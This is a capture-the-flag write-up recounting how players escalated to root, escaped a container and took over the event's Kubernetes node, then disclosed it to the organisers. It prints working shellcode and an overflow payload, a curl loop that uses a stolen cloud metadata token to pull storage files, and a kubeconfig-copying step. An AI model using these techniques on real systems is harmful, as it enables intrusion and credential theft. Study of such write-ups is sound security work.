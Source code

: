 # How we hacked eHaCON CTF Infra

#### TL;DR
This is the story of how me [H-mmer#8548](https://h-mmer.xyz) and my teammate **fredd#8512** hacked ourselves into eHaCON CTF kubernetes cluster node, gaining access to all challenge containers hosted in the cluster as well as their service account token which allowed us to download all the challenge files/flags you name it.


## Storytime
All of this happened kind of on an accident while we were doing another challenge challenge which required us to use FTP in passive mode and since the passive mode didn't work on outside networks we figured to go about it by a different way. There was another challenge hosted in a container which was in the same network as the FTP server was running. So being our hacky selves we figured out a way to elevate privileges inside that other container to root so we could install FTP client in there and solve the challenge in a much, much unintended way.

##### Unintended solve
Here's the code for the privilege escalation using the BOF challenge binary which incidentally had root suid which enable all this. The binary itself didn't have any protections including no NX so it enabled us to jump to the env var with shellcode which was intended for the challenge itself.
```sh
export A=$(echo -e '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xffjqXH\x89\xfe\x0f\x05jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')
(python3 -c 'import struct,sys;sys.stdout.buffer.write(b"A"*104+struct.pack("<Q",0x7fffffffe841))'; cat) | ./BOF
apt install ftp
```

##### Re-return (the kernel module)
After clearing out other challenges we came back to this and realized that there's some unintended kernel pwn/docker escape challenge. Fredd found out through `capsh` that there's a `cap_sys_module` which allows you to load arbitary kernel modules which would allow us to do anything in the host kernel.
<img src="img/img3.png" height=300px width=700px>

Fredd went on to write a kernel module to exploit that **BUT** that didn't work since there was [additional protection](https://kernel.org/doc/html/latest/admin-guide/LSM/LoadPin.html) methods inside that specific kernel.
![img5](img/img5.png)
![img6](img/img6.png)
![img4](img/img4.png)

##### Gaining access to k8s
 So after that we went on to try a container escape [with this](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). After running the PoC we were inside the kubernetes node.
 The node was read-only filesystem and we couldn't run `kubectl get pods` straight away.
 Instead what we did was we started digging around the googleclouds computeMetadata and shortly after we found the service account token which we then used to retrieve all the artifacts from their storage.
 ![img2](img/img2.png)
 
 Command we used to download all the artifacts:
 ```sh
 mkdir files; for f in $(cat files.txt); do echo $f; curl -H 'Metadata-Flavor: Google' -H "Authorization: Bearer $TOKEN" $f -o "files/$(echo -ne $f|md5sum|awk '{print $1}').tar.gz"; done
 ```
 After we got all the files we kinda wanted to get the actual access to the kubernetes pods and we figured out a way to do that by finding kubelet config file in `/var/lib/kubelet/kubeconfig`, after some googling found out that `kubectl` stores its config in `~/.kube/config` so by setting `$HOME` directory for the root user in `/dev/shm` which was writable(is by default) and copying the `/var/lib/kubelet/kubeconfig` into our new home directory.
 `mkdir ~/.kube && cp /var/lib/kubelet/kubeconfig ~/.kube/config`
After that we were able to run any kubectl command.
<img src="img/img1.png">

##### Report to organizers
 After reporting our findings to the admins we went to sleep and I got a bunch of messages from the organizers/admins of the CTF thanking us for the responsible report and not breaking stuff. A while after the fixes were done, the original challenge which made all this possible was removed from the CTF since it couldn't be fixed in a way that would leave the binary solvable and also fix the security issues caused by it so the admins made the choice to remove the challenge. At that point I thought everything was fixed, but then I recalled they had another challenge which also included access to a container. Where we could once again gain the service account token through computeMetadata. After reporting that back they managed to remove the service account from the metadata listing so we couldn't get the token anymore and the metadata itself was a bit more restricted.

##### Conclusion
It's not a good idea to run privileged containers in CTF challenges that let's people inside the container also not the best idea to use root SUID binary with bufferoverflow without any protections and make sure your cloud metadata/userdata is not accessible through your challenges.